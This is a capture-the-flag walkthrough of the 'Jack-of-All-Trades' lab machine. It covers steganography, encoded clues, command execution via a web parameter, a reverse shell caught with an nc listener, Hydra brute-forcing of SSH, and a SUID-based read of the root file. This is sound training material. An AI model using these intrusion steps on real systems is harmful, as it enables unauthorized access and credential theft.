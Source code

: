 # CTF Writeup: Jack-of-All-Trades

## Preparation

First thing I always do before approaching any CTF challenge is create a dedicated directory on my Kali machine to keep credentials, outputs, and clues organized:

```bash
mkdir ~/Desktop/thm/rooms/jack-of-all-trades
```

---

## Reconnaissance

After receiving the target's IP, I ran an **nmap** scan. Something unusual stood out (so unusual I ran the scan three times to be sure):

```bash
nmap -sC -sV -Pn {{TARGET-IP}}
```

_Output snippet:_

```

nmap -sC -sV -Pn {{TARGET-IP}}
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-30 01:02 IDT
Nmap scan report for 10.10.241.208
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
|_http-server-header: Apache/2.4.10 (Debian)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.49 seconds
```

  
Turns out the HTTP server was running on **port 22**, while SSH was on **port 80**.  

---

## Accessing the Web Server

Trying to open port 22 in Firefox didn’t work, because modern browsers block uncommon ports for security reasons:

![Firefox Block](https://github.com/user-attachments/assets/0463e7a0-7f71-493e-8199-cc59f6dce3f6)

To bypass this, I adjusted Firefox settings:

- Go to `about:config`
- Search for `network.security.ports.banned.override`
- If missing, create it:  
  Right-click → New → String  
  Name: `network.security.ports.banned.override`  
  Value: `22`  
- Restart Firefox

After this, the page loaded successfully.

On the site, I noticed three interesting images: the **dinosaur**, the **toy**, and the **header**. I saved them locally for later inspection.

![Jack Website](https://github.com/user-attachments/assets/cd75051c-e0ef-4df1-8db5-70be89bd2005)

---

## Source Code Enumeration

Checking the page source (`Ctrl+U`), I found a hidden note with **Base64-encoded text** and a clue pointing to `/recovery.php`.

Decoding the hidden note gave:

> "Remember to wish Johnny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?-------"

So, I noted down:  
- Name: **Johnny Graves**  
- A password: `u?-------`  

Visiting `/recovery.php` revealed another hidden message, this time encoded in **Base32**.  

![Recovery Page Source](https://github.com/user-attachments/assets/f3c9bfa1-0f57-4eb8-8d31-283ec45eb5d0)

Decoding led to hexadecimal output, which after conversion looked like some rotation cipher. A quick Google search on Johnny Graves pointed to his MySpace page:

![Johnny MySpace](https://github.com/user-attachments/assets/30e6789b-f355-457b-bc66-3f5982dfd276)

Turns out Johnny loves using **ROT13 + Base32** for his messages. Applying this gave me a **bit.ly URL**, which redirected to the Wikipedia page for **Stegosauria**. I kept that keyword in mind.

---

## Steganography Fun

Time to inspect the images I saved earlier with **steghide**.

```bash
steghide --extract -sf stego.jpg
```

With the password from earlier, I extracted `creds.txt`:

![Creds Output](https://github.com/user-attachments/assets/a78866f0-313d-4d25-b6d9-99816ff18daf)

Repeating the process for `header.jpg` yielded `cms.creds`:

```
Username: jackinthebox
Password: Tp-------
```

Bingo!

---

## Exploitation

Using those creds, I logged into `/recovery.php`. The page allowed command execution through the URL parameter:

![Command Exec](https://github.com/user-attachments/assets/eeaf4ae7-38c1-4cb4-b341-5799d3d4b153)

Perfect — I now had RCE. Instead of just trying to read files, I went for a **reverse shell**.  

I generated one at [revshells.com](https://www.revshells.com/), started a listener with `nc -nlvp 4444`, and popped a shell:

```
whoami
www-data
```

Upgrading it with Python gave me an interactive shell.  

---

## Lateral Movement

Inside `/home`, I found **jack’s home folder** (no access) and a file called `jacks_password_list`. Jackpot!  

I copied it to my Kali machine and brute-forced SSH with **Hydra** (don’t forget SSH is on port 80!):

```bash
hydra -l jack -P wlist.txt ssh://10.10.234.46:80/
```

Hydra revealed Jack’s password. Now I could SSH as Jack:

```bash
ssh jack@10.10.234.46 -p80
```

Inside Jack’s home directory, I found the **user flag**, but in an unexpected format — an image file!  

I copied it back with SCP:

```bash
scp jack@10.10.234.46:user.jpg ~/Desktop/thm/rooms/jack-of-all-trades/
```

And sure enough, the flag was embedded in the picture.

![User Flag](https://github.com/user-attachments/assets/7dd65d2c-9008-4d32-93d6-433def11978f)

---

## Privilege Escalation

To get root, I checked `sudo -l` (no luck), then searched for binaries with the SUID bit:

```bash
find / -type f -perm -4000 2>/dev/null
```

The list included **/usr/bin/strings**. Using it on `/root/root.txt` worked!  

```bash
strings /root/root.txt
```

_Output:_  

```
ToDo:
1.Get new penguin skin rug...
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body...
5.Remember to finish that contract for Lisa.
6.Delete this: sec*********_{****************************}
```

---

## Flags Obtained 🎉

- **User Flag** → Found in `user.jpg`  
- **Root Flag** → Extracted with `strings /root/root.txt`  

✅ Challenge Complete!
